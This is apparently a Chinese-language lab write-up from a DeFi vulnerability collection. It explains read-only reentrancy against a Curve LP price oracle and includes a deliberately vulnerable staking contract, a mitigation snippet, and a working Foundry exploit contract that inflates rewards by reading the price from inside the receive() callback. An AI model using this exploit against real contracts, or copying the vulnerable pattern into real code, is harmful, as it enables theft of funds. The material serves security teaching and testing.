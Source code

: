 # 只读可重入  
[ReadOnlyReentrancy.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/ReadOnlyReentrancy.sol)  

**名称：** 只读可重入性漏洞  

**描述：**  
只读重入性漏洞是智能合约设计的一个缺陷，这允许攻击者利用函数的“只读”特性对合约的状态进行意外的更改。  
具体来说，当攻击者通过ICurve合约的remove_liquidity函数触发ExploitContract中的receive函数时，就会出现这种漏洞。这是通过一个安全的智能合约“A”的外部调用实现的，该调用会调用攻击者合约的fallback()函数。  
通过这种攻击方式，攻击者获得了在fallback()函数中执行代码的能力，针对与合约“A”间接相关的合约“B”。合约“B”从合约“A”中获取出LP代币的价格，因此容易受到重入攻击的影响，导致价格被操纵和意外更改。  

**解决方法：**  
避免在只读函数中进行任何的状态修改操作。  

**Makerdao 示例：**  
```
// 如果在状态修改pool函数执行期间被调用，这将被回滚。
if (nonreentrant) {
uint256[2] calldata amounts;
CurvePoolLike(pool).remove_liquidity(0, amounts);
}
```
**参考**  
https://twitter.com/1nf0s3cpt/status/1590622114834706432  
https://chainsecurity.com/heartbreaks-curve-lp-oracles/  
https://medium.com/@zokyo.io/read-only-reentrancy-attacks-understanding-the-threat-to-your-smart-contracts-99444c0a7334  
https://www.youtube.com/watch?v=0fgGTRlsDxI  


**VlunContract:**  
```
contract VulnContract {
    IERC20 public constant token = IERC20(LP_TOKEN);
    ICurve private constant pool = ICurve(STETH_POOL);

    mapping(address => uint) public balanceOf;

    function stake(uint amount) external {
        token.transferFrom(msg.sender, address(this), amount);
        balanceOf[msg.sender] += amount;
    }

    function unstake(uint amount) external {
        balanceOf[msg.sender] -= amount;
        token.transfer(msg.sender, amount);
    }

    function getReward() external view returns (uint) {
        //根据池子LP代币的当前虚拟价格进行奖励代币
        uint reward = (balanceOf[msg.sender] * pool.get_virtual_price()) /
            1 ether;
        // 省略用于转移奖励代币的代码
        return reward;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/ReadOnlyReentrancy.sol -vvvv  
```
// 测试VulnContract合约中只读重入漏洞的函数
function testPwn() public {
    // 通过漏洞合约将10个ether质押到VulnContract合约
    hack.stakeTokens{value: 10 ether}(); 
    // 对VulnContract合约执行只读重入攻击
    hack.performReadOnlyReentrnacy{value: 100000 ether}();
}

// 用于利用 VulnContract 中只读重入漏洞的合约
contract ExploitContract {
    //与ICurve和IERC20合约交互的接口
    ICurve private constant pool = ICurve(STETH_POOL);
    IERC20 public constant lpToken = IERC20(LP_TOKEN);
    // 待攻击的VulnContract合约
    VulnContract private immutable target;

    // 构造函数用于初始化被攻击的VulnContract合约
    constructor(address _target) {
        target = VulnContract(_target);
    }

    // 质押LP代币到VulnContract合约的函数
    function stakeTokens() external payable {
        // 作为流动性添加到Curve池中的金额
        uint[2] memory amounts = [msg.value, 0];
        // 向Curve池子添加流动性并且接受LP代币作为奖励
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        // 记录添加流动性后的LP代币的价格
        console.log(
            "LP token price after staking into VulnContract",
            pool.get_virtual_price()
        );
        // 授权VulnContract合约可以代表当前合约花费LP代币
        lpToken.approve(address(target), lp);
        // 将LP代币质押到VulnContract合约中
        target.stake(lp);
    }

    // 对VulnContract合约进行只读重入攻击的函数
    function performReadOnlyReentrnacy() external payable {
        // 作为流动性添加到Curve池中的金额
        uint[2] memory amounts = [msg.value, 0];
        // 向Curve池子添加流动性并且接受LP代币作为奖励
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        // 记录移除流动性前LP代币的价格
        console.log(
            "LP token price before remove_liquidity()",
            pool.get_virtual_price()
        );
        // 移除流动性时应当接收的最小代币数量
        uint[2] memory min_amounts = [uint(0), uint(0)];
        // 从Curve池子中移除流动性，这将触发receive函数
        pool.remove_liquidity(lp, min_amounts);
        // 记录移除流动性后LP代币的价格
        console.log(
            "--------------------------------------------------------------------"
        );
        console.log(
            "LP token price after remove_liquidity()",
            pool.get_virtual_price()
        );
        // 记录将从VulnContract收到的奖励金额
        uint reward = target.getReward();
        console.log("Reward if Read-Only Reentrancy is not invoked: ", reward);
    }

    //从Curve池中移除流动性时将触发的回退函数
    receive() external payable {
        // 记录在移除流动性期间的LP代币价格
        console.log(
            "--------------------------------------------------------------------"
        );
        console.log(
            "LP token price during remove_liquidity()",
            pool.get_virtual_price()
        );
        // 记录在触发只读重入攻击的情况下可以获得的奖励
        uint reward = target.getReward();
        console.log("Reward if Read-Only Reentrancy is invoked: ", reward);
    }
}
```  
**红色框：** 攻击成功，价格被操控  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Ff974125e-47d0-42ca-89bc-1d9ef7608094%2FUntitled.png?table=block&id=db05153a-1fed-46f6-91fe-6a1caae5e036&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)

![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fc578eed0-e82d-4179-8cd2-75c3e921fdf9%2FUntitled.png?table=block&id=a9136681-055a-42b9-80e0-4f2b2ebbe0d8&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)